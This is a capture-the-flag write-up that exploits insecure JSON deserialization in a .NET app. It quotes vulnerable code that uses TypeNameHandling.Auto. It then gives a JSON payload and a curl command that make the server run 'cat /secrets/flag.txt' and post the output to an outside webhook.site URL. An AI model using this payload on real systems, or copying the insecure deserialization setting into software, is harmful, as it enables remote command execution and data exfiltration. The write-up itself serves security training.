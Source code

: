 # chainmail

## Solution

In the home controller, we notice that the body of the request posted to the `/home/postcodes` endpoint is parsed as JSON with `TypeNameHandling.Auto`.

```csharp
Stream req = Request.Body;
string json = await new StreamReader(req).ReadToEndAsync();

var test = JsonConvert.DeserializeObject<Object>(json, new JsonSerializerSettings
{
    TypeNameHandling = TypeNameHandling.Auto
});
```

This opens the application to an *insecure deserialization* attack (see e.g., [here](https://medium.com/c-sharp-progarmming/stop-insecure-deserialization-with-c-6a488c95cf2f)). The flag `TypeNameHandling.Auto`, indicates to the JSON parser that the user is allowed to choose the type of the object that the data will be deserialized to.

Now, we need to can explore the codebase a bit better to see if there is any object that we can create that can help us extract the flag, stored in `/secrets/flag.txt`. Reviewing the `Utils` namespace, we come across the `Excecutor` class

```csharp
public class Executor
{
    private static readonly HttpClient client = new HttpClient();
    /*
        Runs a command with the given arguments and sends the result of that
        command to *resultUrl*, if specified.
    */
    public Executor(string cmd, string args, string? resultUrl)
    {

        ProcessStartInfo start = new ProcessStartInfo();
        start.Arguments = args;
        start.FileName = cmd;
        start.WindowStyle = ProcessWindowStyle.Hidden;
        start.RedirectStandardOutput = true;
        start.CreateNoWindow = true;

        // Run the external process & wait for it to finish
        using (Process? proc = Process.Start(start))
        {
            if (proc == null)
            {
                return;
            }
            proc.WaitForExit();

            if (!String.IsNullOrEmpty(resultUrl))
            {
                client.PostAsJsonAsync<RunResult>(resultUrl, new RunResult(){
                    Success=proc.ExitCode == 0,
                    Output=proc.StandardOutput.ReadToEnd()
                }).Wait(20 * 1000);
            }
        }

    }
}
```

which happens to run a command and send the output of the command to a specified URL.

Now, we can create a payload that creates a new instance of `Executor` that runs the command `cat` on the file `/secrets/flag.txt`. We can then receive the flag out-of-band, e.g. on [interactsh](https://app.interactsh.com/#/) or [webhook.site](https://webhook.site/). The crafted payload could be

```json
{
    "$type":"App.Utils.Executor, App",
    "cmd":"cat",
    "args": "/secrets/flag.txt",
    "resultUrl": "https://webhook.site/#!/some-uuid"
}
```

or with `curl`

```bash
curl -i -X POST -d '{ "$type":"App.Utils.Executor, App", "cmd":"cat", "args": "/secrets/flag.txt", "resultUrl": "https://webhook.site/some-uuid" }' -H "Content-Type: application/json" 'https://chainmail.origo.syndis.training/home/postcodes'
```

The out-of-band request we get back is then

```json
{
  "success": true,
  "output": "flag{J50n_S0_1nsecure_1t_Br0ke_Up_W1th_1ts_3ncrypt10n_K3ys}\n"
}
```

## Takeaway
Great care must be taken with deserialization in .NET. You can read more [here](https://medium.com/c-sharp-progarmming/stop-insecure-deserialization-with-c-6a488c95cf2f).
